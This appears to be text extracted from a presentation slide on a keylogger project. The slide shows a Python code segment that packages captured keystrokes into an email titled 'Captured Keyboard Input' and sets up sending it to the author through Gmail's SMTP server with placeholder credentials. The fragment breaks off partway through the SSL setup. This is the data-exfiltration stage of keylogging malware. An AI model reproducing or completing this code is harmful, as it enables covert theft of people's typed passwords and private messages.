

Important Code segments

//For send a keystrokes to author via mail//
  def send_email():
        # Email credentials
        sender_email = "your_mail"
        receiver_email = "your_mail"
        password = "apppassword"

        # Email content
        subject = "Captured Keyboard Input"

        # Create a MIMEText object
        msg = MIMEMultipart()
        msg['From'] = sender_email
        msg['To'] = receiver_email
        msg['Subject'] = subject

        # Attach the body with the msg instance
        msg.attach(MIMEText(body, 'plain'))

        # SMTP server configuration
        smtp_server = "smtp.gmail.com"
        port = 465  # For SSL

        # Create a secure SSL context
        print("Creating SSL context...")
        context = smtplib.ssl.create_default_context()